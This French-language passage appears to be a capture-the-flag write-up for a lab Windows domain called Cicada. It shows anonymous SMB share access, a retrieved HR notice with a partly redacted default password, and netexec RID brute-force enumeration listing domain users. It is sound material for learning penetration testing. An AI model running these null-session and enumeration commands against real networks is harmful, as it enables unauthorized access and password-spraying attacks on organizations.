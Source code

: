 ```bash
smbclient --no-pass //cicada.htb/HR 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Mar 14 13:29:09 2024
  ..                                  D        0  Thu Mar 14 13:21:29 2024
  Notice from HR.txt                  A     1266  Wed Aug 28 19:31:48 2024

		4168447 blocks of size 4096. 337588 blocks available

smb: \> get "Notice from HR.txt"
getting file \Notice from HR.txt of size 1266 as Notice from HR.txt (12,6 KiloBytes/sec) (average 12,6 KiloBytes/sec)
```

La note contient des informations à destination des nouveaux employés, notamment le mot de passe par défaut de sa session.

```bash
cat "Notice from HR.txt" 
```

{% capture spoil %}
Dear new hire!
[...expurgé pour brièveté...]
Your default password is: Cicada[...expurgé...]p!8
To change your password:
[...expurgé pour brièveté...]
Thank you for your attention to this matter, and once again, welcome to the Cicada Corp team!
Best regards,
Cicada Corp
{% endcapture %}
{% include elements/spoil.html %}

Il nous faut maintenant trouver un nom d'utilisateur qui fonctionnera avec ce mot de passe.

### Trouver des utilisateurs

Nous parvenons à récupérer une liste d'utilisateurs grâce à l'outil `netexec` (remplaçant de `crackmapexec`). Nous utilisons `grep` pour filtrer les ne garder que les utilisateurs, l'outil récupérant également des noms de groupes dans l'Active Directory.

```bash
netexec smb cicada.htb -u guest -p '' --rid-brute | grep -i typeuser
```

{% capture spoil %}
SMB                      10.10.11.35     445    CICADA-DC        500: CICADA\Administrator (SidTypeUser)
SMB                      10.10.11.35     445    CICADA-DC        501: CICADA\Guest (SidTypeUser)
SMB                      10.10.11.35     445    CICADA-DC        502: CICADA\krbtgt (SidTypeUser)
SMB                      10.10.11.35     445    CICADA-DC        1000: CICADA\CICADA-DC$ (SidTypeUser)
SMB                      10.10.11.35     445    CICADA-DC        1104: CICADA\john.smoulder (SidTypeUser)
SMB                      10.10.11.35     445    CICADA-DC        1105: CICADA\sarah.dantelia (SidTypeUser)
SMB                      10.10.11.35     445    CICADA-DC        1106: CICADA\michael.wrightson (SidTypeUser)
SMB                      10.10.11.35     445    CICADA-DC        1108: CICADA\david.orelious (SidTypeUser)
SMB                      10.10.11.35     445    CICADA-DC        1601: CICADA\emily.oscars (SidTypeUser)
{% endcapture %}
{% include elements/spoil.html %}
